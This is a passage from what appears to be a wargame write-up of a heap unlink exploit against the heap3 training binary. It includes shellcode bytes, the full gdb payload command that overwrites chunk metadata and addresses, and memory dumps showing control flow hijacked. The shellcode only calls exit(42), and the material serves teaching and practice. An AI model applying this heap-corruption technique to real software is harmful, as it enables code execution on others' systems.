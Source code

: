 Skipping over the details of assembly programming and dumping the bytecode,
we have the following escaped-byte string which will serve as our shellcode.
\begin{lstlisting}
"\xeb\x0c\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x31\xdb\xb3\x2a\xb0\x01\xcd\x80"
\end{lstlisting}

The large stream of \texttt{0x90} bytes is simply so we can be sure our short jump
will indeed jump over the corruption from \texttt{unlink}. We'll wind up having
more bytes here than strictly necessary, but we're still well within the limits on
our chunk. Also, since this is 24 bytes long, and we'll pad with 4 bytes in the beginning,
we'll pad with 4 bytes on the end of this to satisfy filling chunk \texttt{c} with
32 bytes (24 + 4 + 4 = 32). Alright, let's set up this last portion of our
buffer and try it out.

\begin{lstlisting}
(gdb) r `python -c 'print("A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff")'` `python -c 'print("\x04\xc0\x04\x08"+"\x50\xf7\xff\xbf"+"\x5c\xc0\x04\x08")'` `python -c 'print("\xf0"*4+"\xeb\x0c\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x31\xdb\xb3\x2a\xb0\x01\xcd\x80"+"\x90"*4)'`
Breakpoint 1, main (argc=4, argv=0xbffff804) at heap3/heap3.c:24
24      heap3/heap3.c: No such file or directory.
        in heap3/heap3.c
(gdb) x/32x 0x0804c000
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c020:      0x41414141      0x41414141      0xfffffffc      0xfffffffc
0x804c030:      0x0804c004      0xbffff750      0x0804c05c      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000029      0xf0f0f0f0      0x90900ceb
0x804c060:      0x90909090      0x90909090      0xc0319090      0x2ab3db31
0x804c070:      0x80cd01b0      0x90909090      0x00000000      0x00000f89
(gdb) c
Continuing.

Breakpoint 2, main (argc=4, argv=0xbffff804) at heap3/heap3.c:26
26      in heap3/heap3.c
(gdb) x/32x 0x0804c000
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c020:      0x41414141      0xfffffff8      0xfffffffc      0xfffffffc
0x804c030:      0xfffffff9      0x0804b194      0x0804b194      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000fb1      0x00000000      0x90900ceb
0x804c060:      0x90909090      0xbffff750      0xc0319090      0x2ab3db31
0x804c070:      0x80cd01b0      0x90909090      0x00000000      0x00000f89
(gdb) c
Continuing.
dynamite failed?

Program exited with code 052.
(gdb) print 052
$1 = 42
\end{lstlisting}

